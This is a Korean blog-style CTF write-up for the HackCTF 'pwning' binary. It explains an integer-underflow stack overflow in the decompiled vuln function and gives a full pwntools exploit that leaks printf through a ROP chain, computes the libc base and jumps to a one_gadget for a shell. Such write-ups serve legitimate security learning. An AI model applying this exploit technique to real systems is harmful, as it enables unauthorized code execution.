 ```yaml
---
title: "[HackCTF]pwning"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


그냥 underflow 이용해서 입력할 수 있는 공간을 늘려줄 수 있다면 쉽게 풀 수 있다.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4u);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`get_n` 함수는 그냥 \n 받기전까지 입력된다. 그리고 v2가 int형이라 underoverflow를 이용해서 값을 늘려줄 수 있다. 

나는 printf를 릭해주고 libc 구한 후에 main으로 돌려서 맞는 libc의 원샷 가젯 찾아서 메인에서 리턴해줬다.

원샷은 libc 다운로드 받아서 one_gadget 돌렸다. libc는 버전 맞춰서 [printf offset](https://libc.blukat.me/?q=printf%3A020&l=libc6-i386_2.23-0ubuntu10_amd64) 구한다음에 libc base 구해줬다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./pwning')
p = remote('ctf.j0n9hyun.xyz',3019)
#p = process('./pwning')
r = ROP(e)

p.sendlineafter('? ',str(-1))

payload = '\x90'*0x2c
payload += 'sung'
r.printf(e.got['printf'])
r.raw(e.symbols['main'])
payload += r.chain()
p.sendlineafter('!\n',payload)

p.recvuntil('\n')
printf = u32(p.recv(4))
log.info('printf : '+ hex(printf))
libc_base = printf - 0x049020
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('? ',str(-1))

payload2 = '\x90'*0x2c
payload2 += 'sung'
payload2 += p32(libc_base + 0x3a80c)

p.sendlineafter('!\n',payload2)
p.interactive()
```

